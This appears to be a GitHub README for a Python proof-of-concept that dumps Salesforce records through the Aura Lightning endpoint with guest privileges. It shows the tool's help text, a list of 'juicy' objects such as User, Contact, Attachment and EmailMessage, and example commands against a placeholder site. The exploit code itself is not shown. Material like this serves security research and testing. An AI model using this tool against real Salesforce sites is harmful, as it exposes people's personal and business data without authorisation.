 # PoC for Salesforce lightning
***Academic purposes Only***. 

This tool dumps the data of Salesforce object through Aura lightning endpoint with the guest privilege.

雑なコードだけど許してくれい


# Requirement
- Python3 

# Usage
```
$ python exploit.py -h
usage: exploit.py [-h] -u URL [-o [OBJECTS [OBJECTS ...]]] [-l] [-c]
                  [-a AURA_CONTEXT]

Exploit Salesforce through the aura endpoint with the guest privilege

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     set the SITE url. e.g. http://url/site_path
  -o [OBJECTS [OBJECTS ...]], --objects [OBJECTS [OBJECTS ...]]
                        set the object name. Default value is "User" object.
                        Juicy Objects: Case,Account,User,Contact,Document,Cont
                        entDocument,ContentVersion,ContentBody,CaseComment,Not
                        e,Employee,Attachment,EmailMessage,CaseExternalDocumen
                        t,Attachment,Lead,Name,EmailTemplate,EmailMessageRelat
                        ion
  -l, --listobj         pull the custom object list.
  -c, --check           only check aura endpoint
  -a AURA_CONTEXT, --aura_context AURA_CONTEXT
                        set your valid aura_context

$ python exploit.y -u https://domain.force.com/sitepath -l
$ python exploit.y -u https://domain.force.com/sitepath -o User Account
```

# Reference
- Salesforce Lightning - An in-depth look at exploitation vectors for the everyday community
  - https://www.enumerated.de/index/salesforce
